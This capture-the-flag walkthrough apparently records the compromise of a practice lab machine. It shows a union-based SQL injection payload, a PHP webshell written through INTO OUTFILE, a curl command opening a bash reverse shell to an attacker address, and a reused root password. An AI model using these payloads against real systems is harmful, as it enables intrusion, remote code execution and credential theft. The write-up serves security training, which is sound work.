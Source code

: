 # Recon

```bash
nmap -p- -oA scans/nmap-alltcp 10.10.11.116
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
8080/tcp open     http-proxy
```

```bash
nmap -p 22,80,4566,8080 -sVC -oA scans/nmap-tcpdetail 10.10.11.116
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesnt have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.97 seconds
```

```bash
feroxbuster -o scans/endpoints -u http://10.10.11.116
301      GET        9l       28w      309c http://10.10.11.116/js => http://10.10.11.116/js/
200      GET        7l     1608w   140930c http://10.10.11.116/css/bootstrap.min.css
200      GET      268l      747w    16088c http://10.10.11.116/
403      GET        9l       28w      277c http://10.10.11.116/css/
301      GET        9l       28w      310c http://10.10.11.116/css => http://10.10.11.116/css/
403      GET        9l       28w      277c http://10.10.11.116/server-status
```

Other http sites on server didn't yield any useful results when scanned for endpoints.

# Shell as www-data

There is only one input on the page:  
![](images/site.png)  

We begin by using the application as normal user would.
After clicking "Join Now" we see the following:  
![](images/join_now.png)  

It seems, that the site displays your username along with
the usernames of people, who are from the same country.

It looks like there might be an SQL injection here somewhere,
as the data about users is (obviously) stored somewhere, and we
see it output as a table.

Request for creating player looks like this:
```
POST / HTTP/1.1
Host: 10.10.11.116
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif ...
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=admin&country=Brazil
```

In response, we receive a cookie (which is just a md5-hashed username),
and using this cookie we can access user dashboard (second screenshot).

We tested for IDOR vulnerability using common usernames, but there wasn't
any new or interesting data to be acquired.

After some testing we were able to see, that injecting SQL special characters
in country field yielded error:

```
:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/account.php</b> on line <b>33
```

From that, we got to know three things:  
1. This field seems to be vulnerable to SQL injection
2. Webserver home directory is /var/www/html
3. This app is written in PHP

After narrowing down, which special character caused the error, 
we were able to make a simple Union-based SQL injection:
```
...SNIP...
username=adminek&country=' UNION select 1-- -
```

![](images/union.png)  

Now, we will leverage this vulnerability to enumerate
the database and acquire as much information as possible.

First, we get user:
```
' UNION select user()-- -
uhc@localhost
```

Version:
```
' UNION select @@version-- -
10.5.11-MariaDB-1
```

Databases:
```
' UNION select schema_name from INFORMATION_SCHEMA.SCHEMATA-- -

information_schema
performance_schema
mysql
registration
```

Tables in database:
```
' UNION select TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='registration'-- -
registration
```

Columns in table:
```
' UNION select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='registration'-- -
username
userhash
country
regtime
```

Sadly, when enumerating usernames in hopes something new would be found, only user-created ones 
were displayed. Maybe another approach is required in order to pwn this box. We will now try to
identify the rights of the user we have, and try to see what else, apart from enumerating the 
database, can we do.

```
' UNION select super_priv from mysql.user where user="uhc"-- -
Y
```

Our user has super privileges in the database.
We will try to write a test file to webserver home. 
If it succeeds, we would be able to upload php webshell, and gain RCE.

```sql
' UNION SELECT "this is a test" INTO OUTFILE "/var/www/html/test.txt"-- -
```

Despite seeing error being thrown, we still successfuly accessed our test file:
![](images/test.png)

Time to upload our webshell:
```sql
' UNION SELECT "<?php system($_REQUEST[0]); ?>" INTO OUTFILE "/var/www/html/shell.php"-- -
```

We will use it to initiate a reverse connection and get a shell:
```bash
curl -s --get \
  --data-urlencode "0=bash -c 'bash -i >& /dev/tcp/10.10.14.23/9001 0>&1'" \
  "http://10.10.11.116/shell.php"
```

# Shell as root

In the directory we landed after obtaining reverse shell,
there is a previously unavailable file in there, called config.php.

Inside, there is a database password. It turns out it's also root user
password, which we can use to authenticate as root:

```
su 
Password: uhc-9qual-global-pw
```
